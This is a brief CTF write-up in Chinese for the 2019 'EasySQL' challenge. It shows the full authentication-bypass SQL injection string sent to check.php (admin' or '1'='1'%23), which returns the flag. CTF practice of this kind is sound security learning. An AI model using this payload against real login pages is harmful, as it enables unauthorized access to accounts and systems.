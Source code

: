 # \[极客大挑战 2019]EasySQL

## \[极客大挑战 2019]EasySQL

## wp

F12发现是向check.php使用GET提交username和password

尝试万能密码，访问`check.php?username=admin' or '1'='1'%23&password=123`，给了flag

![](<../.gitbook/assets/image (6).png>)
